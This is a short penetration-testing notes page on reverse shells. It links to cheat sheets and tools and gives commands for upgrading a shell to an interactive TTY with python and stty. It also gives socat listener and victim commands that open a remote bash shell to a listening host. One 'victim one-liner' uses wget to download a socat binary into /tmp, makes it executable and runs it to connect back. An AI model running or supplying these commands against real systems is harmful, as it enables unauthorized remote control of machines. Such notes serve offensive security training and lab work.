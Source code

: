 # Reverse Shell

## Cheat Sheet

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Tools/Scripts

* [https://github.com/apurvsinghgautam/HTTP-Reverse-Shell](https://github.com/apurvsinghgautam/HTTP-Reverse-Shell)

## Upgrade Reverse Shell

### Python & stty

```
# In reverse shell
$ python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo;fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### Socat

```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

#Victim one-liner:
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### Readings

* [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
* [http://pentestmonkey.net/blog/post-exploitation-without-a-tty](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)
